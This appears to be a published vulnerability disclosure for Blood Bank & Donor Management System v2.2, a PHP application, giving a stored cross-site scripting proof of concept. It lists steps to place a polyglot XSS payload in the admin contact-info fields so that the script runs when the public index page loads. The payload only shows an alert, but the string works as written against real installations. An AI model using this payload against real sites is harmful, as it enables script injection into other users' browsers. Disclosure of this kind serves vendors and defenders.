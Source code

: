 ```yaml
---
title: Blood Bank And Donor Management System 2.2 Cross Site Scripting
published: true
---
```


- Exploit Title: Blood Bank & Donor Management System using v2.2 - Stored XSS
- Application: Blood Donor Management System
- Version: v2.2
-Bugs:  Stored XSS
- Technology: PHP
- Vendor Homepage: https://phpgurukul.com/
- Software Link: https://phpgurukul.com/blood-bank-donor-management-system-free-download/
- Date: 12.09.2023
- Author: SoSPiro
- Tested on: Windows

***

### POC
1. Login to admin account
2. Go to `/admin/update-contactinfo.php`
3. Change "Adress" or " Email id " or " Contact Number" inputs and add ```/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('1') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e``` payload.
4. Go to `http://bbdms.local/inedx.php` page and XSS will be triggered.